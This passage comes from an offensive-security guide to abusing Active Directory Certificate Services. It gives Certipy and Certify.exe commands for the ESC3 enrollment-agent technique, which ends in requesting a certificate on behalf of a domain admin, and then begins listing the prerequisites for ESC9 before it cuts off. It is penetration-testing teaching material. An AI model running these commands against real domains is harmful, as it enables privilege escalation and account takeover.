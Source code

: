     certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
    ```
    Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.
    ```bash
    certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User' -on-behalf-of 'domain\domain admin' -pfx 'user.pfx'
    ```
    !!! note
        By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The -scheme flag can be used to set whether to use LDAP or LDAPS.
=== "Windows"
    From Windows systems, the Certify (C#) tool can be used.
    ```bash
    # Find vulnerable/abusable certificate templates using default low-privileged group
    Certify.exe find /vulnerable

    # Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
    Certify.exe find /vulnerable /currentuser
    ```
    Once a vulnerable template is found, a request shall be made to obtain a certificate specifying the Certificate Request Agent EKU.
    ```bash
    Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
    ```
    Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.
    ```bash
    Certify.exe request /ca:'domain\ca' /template:"User" /onbehalfon:DOMAIN\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
    ```
### ESC9: No security extension
If the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`, the `szOID_NTDS_CA_SECURITY_EXT` extension will not be embedded, meaning that even with `StrongCertificateBindingEnforcement` set to 1, the mapping will be performed similarly as a value of 0 in the registry key.

Here are the requirements to perform ESC9:

- `StrongCertificateBindingEnforcement` not set to 2 (default: 1) or `CertificateMappingMethods` contains UPN flag (0x4)
- The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
- The template specifies client authentication
- `GenericWrite` right against any account A to compromise any account B
=== "UNIX-like"
    From UNIX-like systems, Certipy (Python) can be used to enumerate for, and conduct, the ESC9 scenario.
    